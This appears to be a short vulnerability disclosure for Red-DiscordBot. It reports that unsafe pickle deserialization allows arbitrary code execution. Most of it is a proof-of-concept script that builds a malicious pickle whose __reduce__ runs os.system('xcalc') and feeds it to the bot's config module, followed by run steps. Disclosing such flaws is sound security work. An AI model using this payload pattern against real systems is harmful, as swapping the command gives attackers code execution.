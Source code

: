 # Description
Red is a fully modular bot – meaning all features and commands can be enabled/disabled to your liking, making it completely customizable. This is a self-hosted bot – meaning you will need to host and maintain your own instance.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```python
import os
import pickle
#os.system('pip3 install Red-DiscordBot')
from redbot.core import config
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#exploiting
dumps = pickle.dumps(ArbitraryCode())
config.defaults(dumps)
```
* `pip3 install Red-DiscordBot`
* `python3 exploit.py`
